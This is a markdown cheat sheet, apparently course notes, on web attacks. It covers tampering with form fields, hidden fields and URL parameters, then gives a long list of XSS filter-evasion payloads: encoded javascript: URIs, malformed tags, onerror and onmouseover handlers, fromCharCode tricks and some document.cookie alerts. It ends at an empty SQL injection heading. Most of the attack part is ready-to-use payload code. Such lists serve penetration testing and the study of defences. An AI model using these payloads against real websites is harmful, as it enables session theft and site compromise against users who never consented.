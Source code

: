 # SC MST Cheat Sheet

###### tags: #SC 

## Table of Contents
```toc
```

## Parameter Tampering
### Tampering of Form Fields
- Form field values can be tampered on Burp Suite by intercepting packets and forwarding them

### Hidden Field
- If a website uses hidden fields to store status information, malicious user can tamper with the values stored in their browser and change the referred information
- Values can be modified via by inspecting elements in the web browser

### Tampering with URL Parameters
- URLs can show parameters and values can be modified:
```
# Original
https://www.example.com/defaut.asp?profile=123&value=123

# Modified (Statuses)
https://www.example.com/defaut.asp?profile=123&value=123&status=read
https://www.example.com/defaut.asp?profile=123&value=123&status=del
```

## XSS Filter Evasion
- Basic XSS Test
```html
<script>alert("Hello World!")</script>
```

### Image XSS Using JavaScript Directive
- No quotes or semicolons
```html
<img src=javascript:alert('XSS')>
```
- HTML entities
```html
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```
- Grave accent obfuscation
```html
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```
- Malformed `<a>` tags
```html
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
`\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>`
```
- Malformed `<img>` tags
```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```
- `fromCharCode` (if no quotes of any kind are allowed, use `eval()` to create any XSS vector)
```html
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```
- Default `src` tag to get past filters that check SRC domain
```html
<IMG SRC=# onmouseover="alert('xxs')">
```
- Default `src` tag by leaving it empty
```html
<IMG SRC= onmouseover="alert('xxs')">
```
- Default `src` tag by leaving it out entirely
```html
<IMG onmouseover="alert('xxs')">
```
- On error alert
```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```
- `img onerror` and JavaScript alert encode
```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```
- Embedded tab
```html
<IMG SRC="jav ascript:alert('XSS');">
```
- Embedded encoded tab
```html
<IMG SRC="jav&#x09;ascript:alert('XSS');">
```
- Embedded newline to breakup XSS
```html
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```
- Spaces and meta characters before the JavaScript in images for XSS
	- Useful if the pattern match does not take into account spaces in the word `javascript`
```html
<IMG SRC=" &#14; javascript:alert('XSS');">
```

## SQL Injection
